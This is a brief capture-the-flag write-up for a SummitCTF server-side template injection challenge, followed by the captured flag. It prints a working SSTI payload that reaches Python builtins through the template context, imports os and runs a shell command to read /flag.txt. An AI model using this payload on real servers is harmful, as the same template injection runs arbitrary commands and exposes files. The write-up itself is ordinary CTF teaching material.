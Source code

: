 This is a basic SSTI(Server Side Template Injection)  challenge.
I just copy pasted my saved payload: `{{ {{ request.application.\__globals\_\_.\__builtins\_\_.\__import__('os').popen('cat /flag.txt').read() }}`

Basically SSTI is where you get to inject code into the server side from the client. What my code is doing is requesting global applications to import os, and with this library open flag.txt and read it.

SummitCTF{sStI_1s_r3ally_popul4r_4_some_r3s0n}
